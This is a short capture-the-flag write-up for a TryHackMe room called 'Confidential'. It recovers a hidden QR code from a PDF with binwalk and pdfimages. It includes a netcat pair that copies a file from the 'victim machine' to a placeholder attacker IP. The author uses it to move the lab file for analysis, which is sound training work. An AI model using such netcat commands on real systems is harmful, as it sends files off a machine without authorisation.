

Room name: Confidential (Link )

If we open that PDF, It is seen that it is partially covered and so we are nto
able to scan it.
lets do a binwalk on the PDF.
But I think it is difficult to run binwalk and other tools we needed on the
THM Machine. So we can download the PDF to our machine.
To do that, We can make use of a netcat session.
command to be executed on our machine :
nc -lnvp 1234 > sus.pdf
command to be executed on victim machine:
nc < attackers IP> 1234 < Repdf.pdf
Now the nc will download the Repdf.pdf to our machine.
Now we can use a binwalk here:
binwalk sus.pdf
It is messy, So we can check another tool call pdfimages
pdfimages -all sus.pdf ext
Now we will get three images, Let’s Open it.
So we got the actual QR code. So if we scan it using our mobile or using any
library (Like opencv), We can read the flag.